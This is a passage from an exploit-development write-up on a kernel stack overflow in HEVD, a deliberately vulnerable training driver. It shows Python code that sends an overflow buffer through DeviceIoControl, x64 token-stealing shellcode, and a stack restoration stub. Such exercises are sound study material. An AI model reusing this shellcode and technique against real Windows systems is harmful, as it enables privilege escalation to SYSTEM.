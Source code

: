 ```python
addr = struct.pack("<Q", addr)

buf = create_string_buffer("A"*2048 + "B"*8 + addr)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
    None,
    0,
    byref(c_ulong()),
    None
)

if result != 0:
        print("[*] Sending payload to driver...")
else:
    print("[!] Unable to send payload to driver.")
    sys.exit(1)
```

Running this exploit code nets us a clean execution and we don't crash the kernel! 

![](/assets/images/AWE/cleanaf.PNG)

Now all that's left to do is add some real shellcode. I used the x64 shellcode from [@abatchy17's blog on the token-stealing payloads he was using](https://www.abatchy.com/2018/01/kernel-exploitation-2)

But I also modified them so that I would push all the used registers onto the stack first to preserve their values and then pop them back at the end of the shellcode so that they would be restored. (The RDI corruption killing the kernel made me paranoid.)

My final shellcode looked like this:
```python
shellcode1 = (
"\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
"\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
"\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
"\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
"\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
"\x5B\x59\x58"                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28 
"\x48\x89\xDF"                   # mov rdi,rbx
"\x48\x81\xEF\xD0\x00\x00\x00"   # sub rdi,0xd0
"\xc3"                           # ret
)
```
